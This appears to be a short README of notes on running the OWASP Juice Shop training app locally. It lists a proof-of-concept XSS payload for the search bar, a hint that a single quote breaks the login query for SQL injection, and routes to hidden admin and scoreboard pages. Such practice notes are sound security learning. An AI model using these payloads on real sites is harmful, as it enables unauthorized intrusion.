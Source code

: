 # Juice Shop

## Running

```sh
nx start juice-shop
```

## XSS

```sh
// Place this in search bar
<iframe src="javascript:alert(`xss`)">
```

Alternatively via <http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E>

## SQL Injection

Place ' in login to terminate the string. No Prepared statements used.

## Miscellaneous

- Privacy policy at <http://localhost:3000/#/privacy-security/privacy-policy>
- Scoreboard at <http://localhost:3000/#/score-board>
- Administration at <http://localhost:3000/#/administration> (see jwt.js to get access)
